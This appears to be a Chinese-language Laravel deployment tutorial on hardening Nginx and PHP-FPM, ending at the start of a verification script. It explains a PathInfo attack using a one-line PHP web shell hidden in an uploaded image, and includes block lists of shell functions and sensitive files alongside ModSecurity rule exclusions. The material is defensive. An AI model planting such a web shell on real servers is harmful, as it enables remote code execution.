

# Laravel Nginx 與 PHP-FPM 設定

> [!abstract] 這篇你會學到
> - **★★★ 完整的 Nginx server block**（可直接照抄）
> - **`try_files $uri =404`** 的 PathInfo 攻擊防護
> - **`$realpath_root`** 與符號連結部署的陷阱
> - **PHP-FPM pool** 的專屬設定與 `pm.max_children` 計算
> - **★★★ HTTPS 三件套**（`fastcgi_param HTTPS` + TrustProxies + forceScheme）
> - **上傳大小**的四層設定
> - **ModSecurity** 整合與 Laravel 的誤判調校
> - Apache 對照設定

## 前置知識

- [[01-Laravel-環境需求與安裝]] — 專案已部署
- [[02-PHP-FPM設定與Pool調校]] — FPM 基礎
- [[02-Nginx-設定語法與虛擬主機]] — Nginx 基礎

---

## 架構 ★★



---

## ★★★ 完整的 Nginx 設定

```nginx
# ═══════════════════════════════════════════════════════
# /etc/nginx/sites-available/laravel-api.conf
# ═══════════════════════════════════════════════════════

# ─────────── 限流 ───────────
limit_req_zone $binary_remote_addr zone=api_general:10m rate=30r/s;
limit_req_zone $binary_remote_addr zone=api_login:10m   rate=5r/m;   # ★★ 登入嚴格限流

# ─────────── HTTP → HTTPS ───────────
server {
    listen 80;
    listen [::]:80;
    server_name api.example.gov.tw;

    location ^~ /.well-known/acme-challenge/ {
        root /var/www/certbot;
        default_type "text/plain";
    }
    location / { return 301 https://$host$request_uri; }
}

# ─────────── HTTPS ───────────
server {
    listen 443 ssl;
    listen [::]:443 ssl;
    http2 on;
    server_name api.example.gov.tw;

    # ═══ TLS ═══
    ssl_certificate         /etc/ssl/certs/api-fullchain.crt;   # ★ 伺服器+中繼
    ssl_certificate_key     /etc/ssl/private/api.key;
    ssl_trusted_certificate /etc/ssl/certs/ca-chain.crt;
    ssl_protocols           TLSv1.2 TLSv1.3;
    ssl_ciphers             ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-CHACHA20-POLY1305;
    ssl_prefer_server_ciphers off;
    ssl_session_cache       shared:SSL:20m;
    ssl_session_timeout     1d;
    ssl_session_tickets     off;

    # ═══ ★★★ root 指到 public（不是專案根目錄）═══
    root  /var/www/api/current/public;
    index index.php;

    charset utf-8;

    # ═══ 日誌 ═══
    access_log /var/log/nginx/api.access.log;
    error_log  /var/log/nginx/api.error.log warn;

    # ═══ 安全標頭 ═══
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
    add_header X-Content-Type-Options    "nosniff" always;
    add_header X-Frame-Options           "DENY" always;      # ★ API 不需要被嵌入
    add_header Referrer-Policy           "strict-origin-when-cross-origin" always;
    add_header Permissions-Policy        "geolocation=(), microphone=(), camera=()" always;
    add_header X-Robots-Tag              "noindex, nofollow" always;   # ★ API 不要被索引

    # ═══ ★★ 上傳大小（★ 四層之一）═══
    client_max_body_size 20m;
    client_body_timeout  60s;
    client_body_buffer_size 128k;

    # ═══ 壓縮 ═══
    gzip on;
    gzip_vary on;
    gzip_comp_level 6;
    gzip_min_length 1024;
    gzip_types text/plain text/css application/json application/javascript
               application/xml image/svg+xml font/woff2;
    gzip_static on;

    # ═══════ ★★ 靜態資源（Vite 建置產物）═══════
    location ^~ /build/ {
        try_files $uri =404;                # ★★ 不 fallback 到 index.php
        expires 1y;
        add_header Cache-Control "public, max-age=31536000, immutable";
        add_header X-Content-Type-Options "nosniff" always;
        access_log off;
        gzip_static on;
    }

    # ═══════ ★ 上傳的檔案（storage:link）═══════
    location ^~ /storage/ {
        try_files $uri =404;
        expires 7d;
        add_header Cache-Control "public, max-age=604800";
        add_header X-Content-Type-Options "nosniff" always;
        # ★★★ 防止上傳的檔案被當成 PHP 執行
        location ~ \.(php|phtml|phar|php\d)$ { deny all; }
    }

    # ═══════ ★ 其他靜態檔 ═══════
    location ~* \.(ico|css|js|gif|jpe?g|png|svg|webp|woff2?|ttf|eot)$ {
        try_files $uri =404;
        expires 30d;
        add_header Cache-Control "public";
        add_header X-Content-Type-Options "nosniff" always;
        access_log off;
    }

    # ═══════ ★★ 登入端點的嚴格限流 ═══════
    location ~ ^/(api/)?(login|register|password/(reset|email)|oauth/token)$ {
        limit_req zone=api_login burst=5 nodelay;
        limit_req_status 429;
        try_files $uri $uri/ /index.php?$query_string;
    }

    # ═══════ ★★★ Laravel 主路由 ═══════
    location / {
        limit_req zone=api_general burst=50 nodelay;
        try_files $uri $uri/ /index.php?$query_string;
    }

    # ═══════ ★★★ PHP（最關鍵的部分）═══════
    location ~ \.php$ {
        # ★★★★ 這一行是防 PathInfo 攻擊的關鍵
        try_files $uri =404;

        fastcgi_split_path_info ^(.+\.php)(/.+)$;
        fastcgi_pass unix:/run/php/php8.3-fpm-api.sock;
        fastcgi_index index.php;

        include fastcgi_params;

        # ★★★ 用 $realpath_root（★ 符號連結部署必須）
        fastcgi_param SCRIPT_FILENAME $realpath_root$fastcgi_script_name;
        fastcgi_param DOCUMENT_ROOT   $realpath_root;
        fastcgi_param PATH_INFO       $fastcgi_path_info;

        # ★★★ 讓 Laravel 知道是 HTTPS（★ HTTPS 三件套之一）
        fastcgi_param HTTPS on;

        fastcgi_read_timeout    60s;
        fastcgi_send_timeout    60s;
        fastcgi_connect_timeout 5s;

        fastcgi_buffer_size       32k;
        fastcgi_buffers        16 16k;
        fastcgi_busy_buffers_size 64k;

        # ★ 隱藏 PHP 版本
        fastcgi_hide_header X-Powered-By;

        # ★ 重複宣告安全標頭（add_header 陣列覆蓋）
        add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
        add_header X-Content-Type-Options "nosniff" always;
        add_header X-Frame-Options "DENY" always;
    }

    # ═══════ ★★★ 安全：擋掉不該存取的 ═══════
    location ~ /\.(?!well-known).* { deny all; access_log off; }   # ★ .env .git .htaccess
    location ~ ^/(vendor|storage/logs|bootstrap|config|database|resources|routes|tests)/ {
        deny all; access_log off;
    }
    location ~ \.(env|log|sql|sqlite|md|lock|yml|yaml|bak|old|orig|swp)$ {
        deny all; access_log off;
    }
    location = /composer.json { deny all; }
    location = /composer.lock { deny all; }
    location = /package.json  { deny all; }
    location = /artisan       { deny all; }

    # ★ favicon 與 robots 不要記 log
    location = /favicon.ico { access_log off; log_not_found off; }
    location = /robots.txt  { access_log off; log_not_found off; }
}
```

### ★★★★ `try_files $uri =404` 的重要性

> [!danger] 沒有這一行 = 任意檔案可被當成 PHP 執行 ★★★
> ```
> ★★ 攻擊情境（PathInfo 攻擊）：
>   ① 攻擊者上傳一個【看起來無害】的檔案：evil.jpg
>      → 內容其實是 <?php system($_GET['c']); ?>
>      → 檔案存到 /storage/uploads/evil.jpg
>
>   ② 存取 https://api/storage/uploads/evil.jpg/x.php
>
>   ③ 沒有 try_files $uri =404 時：
>      · location ~ \.php$ 匹配到（★ 網址結尾是 .php）
>      · fastcgi_split_path_info 把它拆成：
>          SCRIPT_NAME = /storage/uploads/evil.jpg/x.php
>          PATH_INFO   = （空）
>      · ★★ 若 cgi.fix_pathinfo=1（★ 舊版預設）
>        → PHP 找不到 x.php → 【往上找 evil.jpg】
>          → ★★★ 把 evil.jpg 當成 PHP 執行 → RCE
>
>   ④ ★★★ 有 try_files $uri =404 時：
>      · Nginx 先檢查 /storage/uploads/evil.jpg/x.php 這個【檔案存在嗎】
>      · 不存在 → 直接回 404，【根本不會交給 PHP】
>
> ★★★ 這一行是【必須的】，不是可選的
> ```

```bash
# ★★ 雙重防護：PHP 這一層也要關掉
$ grep -rn 'cgi.fix_pathinfo' /etc/php/8.3/fpm/php.ini
;cgi.fix_pathinfo=1

$ sudo sed -i 's/^;*cgi.fix_pathinfo=.*/cgi.fix_pathinfo=0/' /etc/php/8.3/fpm/php.ini
$ sudo systemctl reload php8.3-fpm
$ php-fpm8.3 -i 2>/dev/null | grep fix_pathinfo
cgi.fix_pathinfo => 0 => 0             # ★★

# ★★★ 驗證防護有效
$ curl -so /dev/null -w '%{http_code}\n' \
    'https://api.example.gov.tw/storage/test.jpg/x.php'
404                                    # ★ 必須是 404
```

### ★★★ `$realpath_root` vs `$document_root`

> [!danger] 符號連結部署必須用 `$realpath_root` ★★★
> ```
> 目錄結構：
>   /var/www/api/current -> releases/20260828-153045
>   root /var/www/api/current/public;
>
> ★★ $document_root = /var/www/api/current/public       （★ 符號連結的路徑）
> ★★ $realpath_root = /var/www/api/releases/20260828-153045/public   （★ 實際路徑）
>
> ★★★ 為什麼必須用 $realpath_root：
>   ① 【OPcache 的快取 key 是檔案路徑】
>      → 用 $document_root：路徑永遠是 .../current/public/index.php
>        → ★★ 部署新版後路徑沒變 → OPcache 【以為是同一個檔案】
>          → validate_timestamps=0 時 → 【一直執行舊程式碼】
>      → 用 $realpath_root：路徑含版本目錄名 → 新版是新的 key → 自動生效
>
>   ② 錯誤訊息與日誌會顯示【真實路徑】（好追查）
>
>   ③ ★ realpath cache 的行為更一致
>
> ★★ 代價：每次請求多一次 realpath() 系統呼叫（★ 極小，可忽略）
> ```

```bash
# ★★ 驗證用的是哪一個
$ echo '<?php echo $_SERVER["DOCUMENT_ROOT"], "\n", __FILE__;' | \
    sudo tee /var/www/api/current/public/_p.php >/dev/null
$ curl -s https://api.example.gov.tw/_p.php
/var/www/api/releases/20260828-153045/public       # ★★ 正確（實際路徑）
/var/www/api/releases/20260828-153045/public/_p.php
$ sudo rm /var/www/api/current/public/_p.php       # ★★★ 立刻刪除
```

---

## PHP-FPM Pool ★★

```ini
; /etc/php/8.3/fpm/pool.d/api.conf
; ═══ ★★ 每個應用一個獨立的 pool ═══
[api]

user  = www-data
group = www-data

; ═══ ★★ 專屬的 socket（★ 不要共用）═══
listen = /run/php/php8.3-fpm-api.sock
listen.owner = www-data
listen.group = www-data
listen.mode  = 0660
listen.backlog = 511

; ═══════ ★★★ 程序管理 ═══════
pm = dynamic
pm.max_children      = 20        ; ★★★ 見下方計算方式
pm.start_servers     = 5
pm.min_spare_servers = 3
pm.max_spare_servers = 8
pm.max_requests      = 500       ; ★★ 處理 500 個請求後重啟（防記憶體洩漏）
pm.process_idle_timeout = 10s

; ═══ ★ 狀態頁（監控用）═══
pm.status_path = /fpm-status
ping.path      = /fpm-ping
ping.response  = pong

; ═══════ ★★ 慢查詢 ═══════
slowlog = /var/log/php-fpm/api-slow.log
request_slowlog_timeout = 5s
request_terminate_timeout = 60s       ; ★ 超過就殺掉（防卡死）

; ═══════ 日誌 ═══════
access.log = /var/log/php-fpm/api-access.log
access.format = "%R - %u %t \"%m %r%Q%q\" %s %f %{mili}d %{kilo}M %C%%"
catch_workers_output = yes
decorate_workers_output = no

; ═══════ ★★ PHP 設定（★ php_admin_* 應用無法覆蓋）═══════
php_admin_value[memory_limit] = 256M
php_admin_value[max_execution_time] = 60
php_admin_value[upload_max_filesize] = 20M      ; ★★ 四層之二
php_admin_value[post_max_size] = 21M            ; ★★ 要略大於 upload_max_filesize
php_admin_value[max_file_uploads] = 20
php_admin_value[max_input_vars] = 3000

php_admin_value[error_log] = /var/log/php-fpm/api-error.log
php_admin_flag[log_errors] = on
php_admin_flag[display_errors] = off            ; ★★★ 絕不在正式環境顯示
php_admin_flag[display_startup_errors] = off
php_admin_flag[expose_php] = off                ; ★ 不洩漏 PHP 版本

; ═══════ ★★★ 安全限制 ═══════
php_admin_value[open_basedir] = /var/www/api/current:/var/www/api/shared:/tmp:/usr/share/php
php_admin_value[disable_functions] = exec,passthru,shell_exec,system,proc_open,popen,proc_nice,proc_get_status,dl,pcntl_exec,symlink,link
; ★★ open_basedir 擋不住 exec()，兩個都要設

php_admin_value[session.cookie_httponly] = 1
php_admin_value[session.cookie_secure] = 1
php_admin_value[session.use_strict_mode] = 1

; ═══════ ★★ OPcache（正式環境）═══════
php_admin_value[opcache.enable] = 1
php_admin_value[opcache.memory_consumption] = 256
php_admin_value[opcache.interned_strings_buffer] = 32
php_admin_value[opcache.max_accelerated_files] = 20000
php_admin_value[opcache.validate_timestamps] = 0     ; ★★★ 部署後必須 reload FPM
php_admin_value[opcache.revalidate_freq] = 0
php_admin_value[opcache.save_comments] = 1           ; ★★ Laravel 的註解式路由需要
php_admin_value[opcache.enable_file_override] = 0
php_admin_value[opcache.jit] = tracing
php_admin_value[opcache.jit_buffer_size] = 64M

; ★ realpath cache（★ 符號連結部署時很有幫助）
php_admin_value[realpath_cache_size] = 4096K
php_admin_value[realpath_cache_ttl] = 600

; ═══ 環境變數 ═══
env[APP_ENV] = production
clear_env = no                    ; ★ 讓 Laravel 讀得到系統環境變數
```

### ★★★ `pm.max_children` 的計算

> [!danger] 用「實際 RSS」計算，不是 `memory_limit` ★★★
> ```
> ❌ 常見錯誤：
>   memory_limit = 256M
>   總記憶體 8GB
>   → 8192 / 256 = 32
>   → ★★ 這是【錯的】
>
> ★★ memory_limit 是「單一請求的上限」，
>    不是「每個 worker 實際使用的量」
>    → 實際的 RSS 通常只有 40~120MB
>
> ★★★ 正確做法：測量實際的 RSS
>   ps -o rss= -C php-fpm8.3 | awk '{s+=$1; n++} END {printf "平均 %.0f MB\n", s/n/1024}'
>
> 公式：
>   pm.max_children = (可用記憶體 - 其他服務) / 單一 worker 的平均 RSS
>
> 範例：
>   總記憶體 8GB
>   - MySQL innodb_buffer_pool  2GB
>   - Redis                     512MB
>   - Nginx + 系統              1GB
>   = 可用約 4.5GB
>   單一 worker RSS 平均 80MB
>   → 4608 / 80 ≈ 57
>   → ★ 保守設 40（留餘裕給尖峰）
> ```

```bash
#!/usr/bin/env bash
# /usr/local/bin/fpm-sizing —— ★★ 計算合適的 pm.max_children
POOL="${1:-api}"

echo "═══ PHP-FPM 容量規劃 ═══"

# ★ 系統記憶體
TOTAL=$(free -m | awk '/^Mem:/{print $2}')
AVAIL=$(free -m | awk '/^Mem:/{print $7}')
printf '  總記憶體    %d MB\n' "$TOTAL"
printf '  目前可用    %d MB\n' "$AVAIL"

# ★★ 實際的 worker RSS
echo -e "\n【★★ FPM worker 的實際 RSS】"
ps -o rss=,cmd= -C php-fpm8.3 2>/dev/null | grep "pool $POOL" | awk '
  {s+=$1; n++; if($1>max) max=$1}
  END {
    if(n>0) printf "  數量 %d  平均 %.0f MB  最大 %.0f MB\n", n, s/n/1024, max/1024;
    else print "  （沒有執行中的 worker）"
  }'

AVG=$(ps -o rss=,cmd= -C php-fpm8.3 2>/dev/null | grep "pool $POOL" | \
      awk '{s+=$1;n++} END {if(n>0) printf "%.0f", s/n/1024; else print 80}')
MAX=$(ps -o rss=,cmd= -C php-fpm8.3 2>/dev/null | grep "pool $POOL" | \
      awk '{if($1>m) m=$1} END {printf "%.0f", (m?m:120)/1024}')

# ★ 其他服務
echo -e "\n【其他服務的記憶體】"
for s in mysqld redis-server nginx; do
    M=$(ps -o rss= -C "$s" 2>/dev/null | awk '{s+=$1} END {printf "%.0f", s/1024}')
    [ -n "$M" ] && [ "$M" != 0 ] && printf '  %-16s %s MB\n' "$s" "$M"
done
OTHER=$(ps -o rss= -C mysqld -C redis-server -C nginx 2>/dev/null | \
        awk '{s+=$1} END {printf "%.0f", s/1024}')

# ★★ 建議值
RESERVE=1024                      # ★ 給系統與快取
USABLE=$(( TOTAL - OTHER - RESERVE ))
SUGGEST=$(( USABLE / (AVG > 0 ? AVG : 80) ))
SAFE=$(( SUGGEST * 70 / 100 ))    # ★ 保守 70%

cat <<EOF

【★★★ 建議】
  可用於 FPM     ${USABLE} MB（總計 - 其他服務 ${OTHER}MB - 保留 ${RESERVE}MB）
  平均 worker    ${AVG} MB
  最大 worker    ${MAX} MB

  理論上限       pm.max_children = ${SUGGEST}
  ★★ 建議值      pm.max_children = ${SAFE}

  配套：
    pm.start_servers     = $(( SAFE / 4 ))
    pm.min_spare_servers = $(( SAFE / 8 ))
    pm.max_spare_servers = $(( SAFE / 3 ))
    pm.max_requests      = 500

EOF

# ★ 目前設定
echo "【目前設定】"
grep -E '^pm\.' "/etc/php/8.3/fpm/pool.d/$POOL.conf" 2>/dev/null | sed 's/^/  /'

# ★★ 檢查有沒有達到上限
echo -e "\n【★★ 是否曾達到上限】"
sudo grep -c 'server reached pm.max_children' /var/log/php8.3-fpm.log 2>/dev/null | \
  awk '{if($1>0) print "  ✗✗ 曾達到上限 " $1 " 次 —— 需要調高或優化"; else print "  ✓ 未達上限"}'
```

```bash
# ★★ FPM 狀態監控
$ curl -s 'http://127.0.0.1/fpm-status?full' | head -20
pool:                 api
process manager:      dynamic
start time:           28/Aug/2026:10:00:00 +0800
accepted conn:        128432
listen queue:         0                    # ★★ >0 表示 worker 不夠
max listen queue:     3
idle processes:       6
active processes:     2
total processes:      8
max active processes: 18                   # ★ 接近 max_children 就要調高
max children reached: 0                    # ★★★ >0 就是不夠用
slow requests:        12                   # ★ 有慢請求
```

```nginx
# ★ 讓 fpm-status 可存取（★ 限制來源）
location ~ ^/(fpm-status|fpm-ping)$ {
    allow 127.0.0.1;
    allow 10.0.0.0/8;
    deny all;
    access_log off;
    fastcgi_pass unix:/run/php/php8.3-fpm-api.sock;
    include fastcgi_params;
    fastcgi_param SCRIPT_FILENAME $fastcgi_script_name;
}
```

---

## ★★★ HTTPS 三件套

> [!danger] 少了任何一件，Laravel 都會產生 `http://` 連結 ★★★
> ```
> 症狀：
>   · route('home') 產生 http:// 而不是 https://
>   · asset('css/app.css') 也是 http://
>   · ★★ 混合內容警告（瀏覽器擋掉 CSS/JS）
>   · ★★ 轉址無限迴圈
>   · ★★★ SESSION_SECURE_COOKIE=true 時【一直登不進去】
> ```

```nginx
# ★★★ 【第一件】Nginx 傳遞 HTTPS 給 PHP
location ~ \.php$ {
    # ...
    fastcgi_param HTTPS on;                              # ★★★
}
```

```php
<?php
// ★★★ 【第二件】app/Http/Middleware/TrustProxies.php
// Laravel 11+ 是在 bootstrap/app.php 設定
namespace App\Http\Middleware;

use Illuminate\Http\Middleware\TrustProxies as Middleware;
use Illuminate\Http\Request;

class TrustProxies extends Middleware
{
    // ★★ 只信任本機的反向代理
    protected $proxies = ['127.0.0.1', '::1'];
    // ★ 若前面還有 LB/CDN，列出它們的 IP 或網段
    // protected $proxies = '10.0.0.0/8';
    // ★★★ 不要用 '*'（除非確定只有反代能連到 PHP-FPM）

    protected $headers =
        Request::HEADER_X_FORWARDED_FOR |
        Request::HEADER_X_FORWARDED_HOST |
        Request::HEADER_X_FORWARDED_PORT |
        Request::HEADER_X_FORWARDED_PROTO |         // ★★★ 最重要
        Request::HEADER_X_FORWARDED_AWS_ELB;
}
```

```php
<?php
// ★★ Laravel 11+ 的寫法：bootstrap/app.php
return Application::configure(basePath: dirname(__DIR__))
    ->withMiddleware(function (Middleware $middleware) {
        $middleware->trustProxies(
            at: ['127.0.0.1', '::1'],
            headers: Request::HEADER_X_FORWARDED_FOR
                   | Request::HEADER_X_FORWARDED_HOST
                   | Request::HEADER_X_FORWARDED_PORT
                   | Request::HEADER_X_FORWARDED_PROTO,   // ★★★
        );
    })
    ->create();
```

```php
<?php
// ★★★ 【第三件】app/Providers/AppServiceProvider.php
namespace App\Providers;

use Illuminate\Support\Facades\URL;
use Illuminate\Support\ServiceProvider;

class AppServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        // ★★ 正式環境強制產生 https 連結
        if ($this->app->environment('production')) {
            URL::forceScheme('https');
        }
    }
}
```

```dotenv
# ★★ 搭配的 .env
APP_URL=https://api.example.gov.tw
ASSET_URL=https://api.example.gov.tw
SESSION_SECURE_COOKIE=true
SESSION_SAME_SITE=lax
```

```bash
# ★★★ 驗證三件套都生效
$ cat > /tmp/check.php <<'PHP'
<?php
return [
    'secure'   => request()->secure(),
    'scheme'   => request()->getScheme(),
    'url'      => url('/'),
    'route'    => route('home', [], true),
    'asset'    => asset('build/app.css'),
    'client_ip'=> request()->ip(),
    'proto_hdr'=> request()->header('X-Forwarded-Proto'),
    'https_srv'=> $_SERVER['HTTPS'] ?? '(未設定)',
];
PHP
# ★ 建一個臨時路由或用 tinker
$ cd /var/www/api/current && php artisan tinker --execute='
  echo json_encode([
    "app_url" => config("app.url"),
    "force_https" => \Illuminate\Support\Facades\URL::formatScheme(),
  ], JSON_PRETTY_PRINT);'

# ★★ 最直接：實際請求
$ curl -s https://api.example.gov.tw/api/debug/scheme | jq
{
  "secure": true,                 # ★★★ 必須是 true
  "scheme": "https",
  "url": "https://api.example.gov.tw",
  "client_ip": "203.0.113.5"      # ★ 真實的客戶端 IP（不是 127.0.0.1）
}
```

> [!warning] `TrustProxies` 設 `'*'` 的風險 ★★
> ```
> protected $proxies = '*';
>   → ★★ 信任【任何來源】送來的 X-Forwarded-* 標頭
>     → 攻擊者可以偽造 X-Forwarded-For 來：
>       · ★ 繞過依 IP 的限流
>       · 繞過 IP 白名單
>       · 在日誌中偽造來源 IP（★ 干擾事件調查）
>
> ★★ 但如果【確定只有反向代理能連到 PHP-FPM】
>    （unix socket 或 127.0.0.1，且 FPM 沒有對外開放）
>    → 那 '*' 其實是安全的（★ 因為只有反代能送請求進來）
>
> ★★★ 保險起見還是明確列出：['127.0.0.1', '::1']
> ```

---

## ★★ 上傳大小的四層設定

```
★★★ 四層都要改，任何一層太小都會失敗

① Nginx        client_max_body_size    20m
② PHP-FPM      upload_max_filesize     20M
③ PHP-FPM      post_max_size           21M     ← ★ 要略大於 ①②
④ Laravel      驗證規則 max:20480       （★ 單位是 KB）
```

```nginx
# ① Nginx
client_max_body_size 20m;
client_body_timeout  60s;
client_body_buffer_size 128k;      # ★ 超過就寫暫存檔
```

```ini
; ②③ PHP-FPM pool
php_admin_value[upload_max_filesize] = 20M
php_admin_value[post_max_size] = 21M          ; ★★ 略大（要容納其他表單欄位）
php_admin_value[max_file_uploads] = 20
php_admin_value[memory_limit] = 256M          ; ★ 要大於 post_max_size
```

```php
<?php
// ④ Laravel 驗證
$request->validate([
    'file' => 'required|file|max:20480|mimes:pdf,jpg,jpeg,png,docx',   // ★ KB
]);
```

> [!danger] 不同層失敗的錯誤訊息完全不同 ★★
> ```
> ① Nginx 太小
>    → ★ HTTP 413 Request Entity Too Large
>    → ★★ 【請求根本沒到 PHP】→ Laravel 的錯誤處理不會執行
>      → 使用者看到 Nginx 的預設錯誤頁
>
> ② PHP upload_max_filesize 太小
>    → ★ $_FILES['x']['error'] = UPLOAD_ERR_INI_SIZE (1)
>    → Laravel 的驗證會報「上傳失敗」
>
> ③ ★★ PHP post_max_size 太小
>    → ★★★ 【$_POST 與 $_FILES 完全是空的】
>      → Laravel 看到的是「沒有上傳任何東西」
>      → ★ CSRF token 也不見了 → 419 Page Expired
>        → ★★ 這個症狀最難debug
>
> ④ Laravel 驗證太小
>    → 正常的驗證錯誤訊息（★ 這是唯一「正確」的失敗方式）
> ```

```nginx
# ★★ 讓 413 也回傳 JSON（API 友善）
error_page 413 = @413_json;
location @413_json {
    default_type application/json;
    return 413 '{"message":"檔案太大，上限 20MB","errors":{"file":["檔案大小超過限制"]}}';
}
```

```bash
# ★★ 測試四層
$ dd if=/dev/urandom of=/tmp/test-25m.bin bs=1M count=25 2>/dev/null
$ curl -sw '\n%{http_code}\n' -X POST https://api.example.gov.tw/api/upload \
    -H 'Accept: application/json' \
    -F 'file=@/tmp/test-25m.bin'
{"message":"檔案太大，上限 20MB",...}
413                                # ★ Nginx 擋下

$ dd if=/dev/urandom of=/tmp/test-19m.bin bs=1M count=19 2>/dev/null
$ curl -sw '\n%{http_code}\n' -X POST https://api.example.gov.tw/api/upload \
    -H 'Accept: application/json' -F 'file=@/tmp/test-19m.bin'
{"path":"uploads/..."}
200                                # ★ 通過
```

---

## ModSecurity 整合 ★★

```nginx
# ★★ 在 server 區塊啟用
server {
    # ...
    modsecurity on;
    modsecurity_rules_file /etc/nginx/modsec/main.conf;
}
```

```apache
# /etc/nginx/modsec/laravel-exclusions.conf —— ★★ Laravel 的誤判調校
# ★ 放在 CRS 之後載入

# ═══ ① CSRF token 的 base64 內容常被誤判 ═══
SecRule REQUEST_FILENAME "@rx ." \
  "id:10001,phase:2,pass,nolog,\
   ctl:ruleRemoveTargetById=942440;ARGS:_token,\
   ctl:ruleRemoveTargetById=942430;ARGS:_token"

# ═══ ② ★★ 富文字編輯器的內容（HTML）═══
SecRule REQUEST_URI "@beginsWith /admin/posts" \
  "id:10002,phase:2,pass,nolog,\
   ctl:ruleRemoveTargetByTag=attack-xss;ARGS:content,\
   ctl:ruleRemoveTargetByTag=attack-xss;ARGS:body"

# ═══ ③ ★ 檔案上傳（binary 內容會觸發一堆規則）═══
SecRule REQUEST_URI "@beginsWith /api/upload" \
  "id:10003,phase:2,pass,nolog,\
   ctl:ruleEngine=DetectionOnly"

# ═══ ④ ★★ Livewire / Inertia 的 JSON payload ═══
SecRule REQUEST_URI "@rx ^/(livewire|_inertia)" \
  "id:10004,phase:2,pass,nolog,\
   ctl:ruleRemoveByTag=attack-injection-php,\
   ctl:ruleRemoveByTag=attack-sqli"

# ═══ ⑤ ★ 提高請求大小上限（★ 要與 Nginx 一致）═══
SecRequestBodyLimit 22020096
SecRequestBodyNoFilesLimit 1048576
SecRequestBodyLimitAction ProcessPartial
```

```bash
# ★★ 觀察誤判（★ 先用 DetectionOnly 跑一週）
$ sudo grep -oP 'id "\K\d+' /var/log/modsec_audit.log | sort | uniq -c | sort -rn | head -20
    142 942100
     87 941100
     31 920420

# ★ 看某條規則的細節
$ sudo grep -B5 -A20 'id "942100"' /var/log/modsec_audit.log | head -40

# ★★ 找出被誤判的參數
$ sudo grep -oP 'ARGS:\K[a-zA-Z_]+' /var/log/modsec_audit.log | sort | uniq -c | sort -rn
```

> [!warning] ModSecurity 的上線流程 ★★
> ```
> ★★ 絕對不要一開始就設 SecRuleEngine On
>
> ① 【第一週】SecRuleEngine DetectionOnly
>    → 只記錄不阻擋
>    → ★ 收集誤判
>
> ② 分析 modsec_audit.log，寫排除規則
>
> ③ 【第二週】仍然 DetectionOnly，確認誤判已排除
>
> ④ ★★ 在【staging】開 On，完整測試所有功能
>
> ⑤ 正式環境開 On，★ 密切監控 403 的數量
>
> ★★ 準備好快速關閉的方法：
>    sudo sed -i 's/^modsecurity on;/modsecurity off;/' <conf>
>    sudo nginx -t && sudo systemctl reload nginx
> ```

---

## Apache 對照設定

> [!info]- Apache 2.4 的對照設定
> ```apache
> # /etc/apache2/sites-available/laravel-api.conf
> <VirtualHost *:443>
>     ServerName api.example.gov.tw
>     DocumentRoot /var/www/api/current/public     # ★★ public
>
>     SSLEngine on
>     SSLCertificateFile      /etc/ssl/certs/api-fullchain.crt
>     SSLCertificateKeyFile   /etc/ssl/private/api.key
>     SSLProtocol             -all +TLSv1.2 +TLSv1.3
>     SSLCipherSuite          ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256
>     SSLHonorCipherOrder     off
>
>     Header always set Strict-Transport-Security "max-age=31536000; includeSubDomains"
>     Header always set X-Content-Type-Options "nosniff"
>     Header always set X-Frame-Options "DENY"
>
>     # ★★★ PHP-FPM（★ 用 SetHandler 不要用 ProxyPassMatch）
>     <FilesMatch \.php$>
>         SetHandler "proxy:unix:/run/php/php8.3-fpm-api.sock|fcgi://localhost"
>     </FilesMatch>
>
>     <Directory /var/www/api/current/public>
>         Options -Indexes +FollowSymLinks
>         AllowOverride None                  # ★★ 效能與安全（改用下面的 Rewrite）
>         Require all granted
>
>         # ★★ Laravel 的 front controller
>         RewriteEngine On
>         RewriteCond %{HTTP:Authorization} .
>         RewriteRule .* - [E=HTTP_AUTHORIZATION:%{HTTP:Authorization}]
>         RewriteCond %{REQUEST_FILENAME} !-d
>         RewriteCond %{REQUEST_FILENAME} !-f
>         RewriteRule ^ index.php [L]
>     </Directory>
>
>     # ★★ 擋掉敏感目錄
>     <DirectoryMatch "^/var/www/api/current/(vendor|storage/logs|bootstrap|config|database|tests)">
>         Require all denied
>     </DirectoryMatch>
>
>     <FilesMatch "\.(env|log|sql|md|lock|yml)$">
>         Require all denied
>     </FilesMatch>
>
>     # ★ 上傳的檔案不可執行 PHP
>     <Directory /var/www/api/current/public/storage>
>         <FilesMatch "\.(php|phtml|phar)$">
>             Require all denied
>         </FilesMatch>
>     </Directory>
>
>     LimitRequestBody 20971520          # ★ 20MB
> </VirtualHost>
> ```
>
> ```
> ★★★ 絕對不要用 ProxyPassMatch：
>   ProxyPassMatch ^/(.*\.php)$ unix:/run/php/x.sock|fcgi://localhost/var/www/...
>   → ★★★ 【不檢查檔案是否存在】→ 與 Nginx 缺少 try_files 同樣的 RCE 風險
>   → ★★ 用 <FilesMatch> + SetHandler
>
> ★★ AllowOverride None：
>   · 效能：Apache 不用逐層找 .htaccess
>   · 安全：使用者不能用 .htaccess 覆蓋設定
>   · ★ 代價：Laravel 的 .htaccess 規則要搬到 <Directory> 裡
> ```

---

## 完整實戰範例：驗證腳本

```bash
#!/usr/bin/env bash
# /usr/local/bin/laravel-nginx-check —— Nginx 與 FPM 設定驗證
set -uo pipefail
SITE="${1:-https://api.example.gov.tw}"
APP="${2:-/var/www/api}"
PASS=0; FAIL=0

